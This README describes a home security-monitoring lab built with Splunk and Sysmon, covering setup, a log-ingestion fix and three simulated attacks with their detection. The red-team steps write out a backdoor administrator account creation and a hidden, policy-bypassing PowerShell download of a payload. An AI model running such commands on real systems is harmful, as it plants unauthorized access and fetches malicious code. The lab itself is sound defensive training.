# Home Lab SOC / SIEM: Splunk & Sysmon

## Project Description
A local SOC lab built with Splunk and Sysmon to collect logs and detect threats on a Windows endpoint. The setup generates, collects, and analyzes logs to identify malicious behavior.

## Architecture & Technologies
* **SIEM:** Splunk Enterprise (physical machine)
* **Target Endpoint:** Windows 11 VM
* **Log Collector:** Splunk Universal Forwarder
* **Telemetry:** Microsoft Sysmon (SwiftOnSecurity configuration)
* **Network:** Local communication via port `9997`

## Phase 1: Infrastructure Deployment & Visibility (Completed)
Set up the SOC foundation to get full visibility into the target machine.

* Installed and configured the Splunk Enterprise server.
* Deployed an isolated Windows 11 VM.
* Installed Sysmon to capture process creation, network connections, and other advanced events.
* Deployed Splunk Universal Forwarder on the endpoint.
* Configured `inputs.conf` to ingest:
  * `WinEventLog://Application`
  * `WinEventLog://Security`
  * `WinEventLog://System`
  * `WinEventLog://Microsoft-Windows-Sysmon/Operational`

### Visualizing Sysmon Logs in Splunk


### Endpoint Telemetry Source


## Troubleshooting
Sysmon logs initially failed to appear in Splunk.

* **Issue:** System and Security logs ingested correctly. Zero Sysmon events appeared in the Splunk index, even with a valid `inputs.conf`.
* **Investigation:**
  1. Verified Sysmon logs generated locally in Windows Event Viewer.
  2. Checked Splunk agent internal logs (`splunkd.log`).
  3. Found this error: `WinEventLogChannel::init: Init failed, unable to subscribe to Windows Event Log channel 'Microsoft-Windows-Sysmon/Operational': errorCode=5`

### Log Analysis Finding the Root Cause


* **Resolution:** Error code 5 means "Access Denied". The SplunkForwarder service ran under a restricted user account and couldn't read the Sysmon log channel. Changed the service log-on account to Local System. Data ingestion started immediately.

### Resolving the Issue (Local System Privileges)


## Phase 2: Attack, Detection & Threat Hunting

### Scenario 1: Backdoor Account Creation & Privilege Escalation
In this scenario, I simulated an attacker establishing persistence by creating a hidden local account and elevating its privileges to Administrator.

* **Attack Execution (Red Team):** * Executed `net user hacker Password123! /add` to create a new backdoor account.
  * Executed `net localgroup Administrateurs hacker /add` to grant the account full system privileges.
* **Threat Hunting & Log Analysis (Blue Team):**
  * Utilized SPL (Splunk Processing Language) to query the ingested Windows Security event logs.
  * Successfully identified **Event ID 4720** (A user account was created) showing the exact timestamp and the compromised admin account used to create the backdoor.
  * Correlated the event with **Event ID 4732** (A member was added to a security-enabled local group), proving the `hacker` account was added to the `Administrators` group.
* **Detection Engineering:**
  * Created a real-time critical Splunk alert: `[CRITICAL] User Added to Administrators Group`.
  * Mapped the detection to the MITRE ATT&CK framework: **T1098 (Account Manipulation)**.

#### Analyst Notes (Defense in Depth)
* Initially searched for Sysmon Event ID 1 (Process Creation) to track the command execution. Encountered parsing challenges in Splunk due to the XML rendering configuration (`renderXml = 1`).
* Successfully pivoted to Windows Native Security logs as a fallback, demonstrating the critical importance of log redundancy and Defense in Depth in a SOC environment.

#### Visualizing the Attack Lifecycle





### Scenario 2: "Living-off-the-Land" Payload Download (PowerShell)
In this scenario, I simulated a common malware behavior: using native OS tools to silently download a malicious payload from the internet, bypassing basic antivirus detection.

* **Attack Execution (Red Team):** * Executed a heavily obfuscated PowerShell command: `powershell.exe -nop -w hidden -ep bypass -Command "Invoke-WebRequest -Uri 'https://example.com' -OutFile 'C:\Windows\Temp\payload.ps1'"`
  * This command hides the window, bypasses execution policies, and drops a file into the `Temp` directory.
* **Threat Hunting & Log Analysis (Blue Team):**
  * Utilized Splunk to hunt for suspicious PowerShell executions.
  * Successfully identified **Sysmon Event ID 1 (Process Creation)** capturing the exact malicious command line arguments (`-w hidden`, `-ep bypass`).
  * Correlated with **Sysmon Event ID 11 (File Create)**, proving the payload was successfully dropped into `C:\Windows\Temp\payload.ps1`.
* **Detection Engineering:**
  * Mapped to MITRE ATT&CK framework: **T1059.001 (Command and Scripting Interpreter: PowerShell)** and **T1105 (Ingress Tool Transfer)**.

#### Visualizing the Threat

### Scenario 3: Local Authentication Brute Force & Data Visualization
In this scenario, I simulated a local brute-force attack to test Windows authentication logging and created a visualization dashboard for SOC monitoring.

* **Attack Execution (Red Team):** Intentionally failed multiple login attempts on the Windows lock screen to trigger the Windows Account Lockout/Delay mechanism.
* **Threat Hunting & Log Analysis (Blue Team):**
  * Queried Splunk for **Event ID 4625** (An account failed to log on).
  * Identified the targeted accounts and the volume of failed attempts.
* **Detection Engineering & Visualization:**
  * Used Splunk's SPL `stats count by Nom_du_compte` command to aggregate failed logins.
  * Built a custom **SOC Dashboard** featuring a Pie Chart to visualize the most targeted accounts in real-time.
  * Mapped to MITRE ATT&CK framework: **T1110 (Brute Force)**.

#### Visualizing the Brute Force Attack


